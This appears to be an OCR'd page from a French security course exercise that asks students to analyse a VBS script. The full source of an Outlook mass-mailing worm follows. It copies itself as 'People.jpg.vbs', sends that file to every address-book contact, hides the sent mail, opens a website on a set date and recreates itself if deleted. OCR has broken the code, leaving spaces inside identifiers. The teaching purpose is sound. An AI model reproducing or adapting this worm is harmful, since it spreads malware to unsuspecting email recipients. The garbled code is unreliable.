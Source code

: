 

#### Question - réponse

Les antivirus sont capables d’analyser le contenu d’une archive. Si le fichier est chiffré, alors cela rend l’analyse de l’antivirus inefficace.

### Exercice 94 : Analyse d’un programme malveillant

#### Donnée
Analyser le code VBS ci-après en identifiant de manière générale ses différentes fonctions

```vbs
Do not execute this code on your own computer!
On Error Resume Next
Set shell = CreateObject("WScript.Shell")
shell.regwrite "HKCU\software\OnTheFly\", "made with Vbswg 1.50b"
Set fileobject= Createobject("scripting.filesystemobject")
fileobject.copyfile wscript.scriptfullname,fileobject.GetSpecialFolder(0)& "\People.jpg.vbs"
if shell.regread ("HKCU\software\OnTheFly\mailed") <> "1" then
 infect()
end if
if month(now) =1 and day(now) =26 then
 shell.run "Http://www.dynabyte.nl",3,false
end if
Set myfile= fileobject.opentextfile(wscript.scriptfullname, 1)
file content= myfile.readall
myfile.Close
Do
 If Not (fileobject.fileexists(wscript.scriptfullname)) Then
 Set new file= fileobject.createtextfile(wscript.scriptfullname, True)
 new file.write file content
 new file.Close
 End If
Loop
Function infect()
On Error Resume Next
Set my outlook = CreateObject("Outlook.Application")
If my outlook= "Outlook"Then
 Set my mapi=my outlook.GetNameSpace("MAPI")
 Set my addrlists= my mapi.AddressLists
 For Each my list In my addrlists
 If my list.AddressEntries.Count <> 0 Then
 num addr = my list.AddressEntries.Count
 For i = 1 To num addr
 Set my msg = my outlook.CreateItem(0)
 Set my addr = my list.AddressEntries(i)
 my msg.To = my addr.Address
 my msg.Subject = "Here you have, ;o)"
 my msg.Body = "Hi:" & vbcrlf & "Check This!" & vbcrlf & ""
 set my attachement=my msg.Attachments
 my attachement.Add fileobject.GetSpecialFolder(0)& "\People.jpg.vbs"
 my msg.DeleteAfterSubmit = True
 If my msg.To <> "" Then
 my msg.Send
 shell.regwrite "HKCU\software\OnTheFly\mailed", "1"
 End If
 Next
 End If
 Next
end if
End Function

```
